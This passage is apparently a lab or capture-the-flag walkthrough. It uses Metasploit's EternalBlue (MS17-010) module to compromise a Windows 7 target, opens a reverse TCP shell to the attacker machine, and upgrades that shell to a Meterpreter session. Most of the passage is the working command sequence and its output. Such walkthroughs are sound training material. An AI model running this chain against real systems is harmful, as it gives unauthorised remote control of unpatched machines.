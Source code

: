 ```plain text
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost tun0
lhost => tun0
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts ${MACHINE_IP}
rhosts => ${MACHINE_IP}
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
```

All set. Run `exploit`. If you want, although we already know this, you can type `check` first.

```plain text
[+] ${MACHINE_IP}:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] ${MACHINE_IP}:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] ${MACHINE_IP}:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

If you saw that, you’re in! We’re now presented with a shell session. To background the process, press `Ctrl-Z` then `y`.

```plain text
Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----


C:\Windows\system32>^Z
Background session 1? [y/N]  y
```

# Escalation

A Windows shell is great, but `meterpreter` is better. To upgrade the backgrounded session, we can `use post/multi/manage/shell_to_meterpreter`. We also need to let the module know which session we are upgrading, which we can do with `set session 1` (or whatever the number of your session was). Finally, we have to set the right `LHOST` as before. Then it’s ready to `run`.

```plain text
msf6 exploit(windows/smb/ms17_010_eternalblue) > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > set session 1
session => 1
msf6 post(multi/manage/shell_to_meterpreter) > set lhost tun0
lhost => ${ATTACKBOX_IP}
msf6 post(multi/manage/shell_to_meterpreter) > run
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on ${ATTACKBOX_IP}:4433
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) >
[*] Sending stage (200774 bytes) to ${MACHINE_IP}
[*] Meterpreter session 2 opened (${ATTACKBOX_IP}:4433 -> ${MACHINE_IP}:49222) at 2022-07-30 22:11:56 +0800
[*] Stopping exploit/multi/handler
sessions -i 2
[*] Starting interaction with 2...

meterpreter >
```
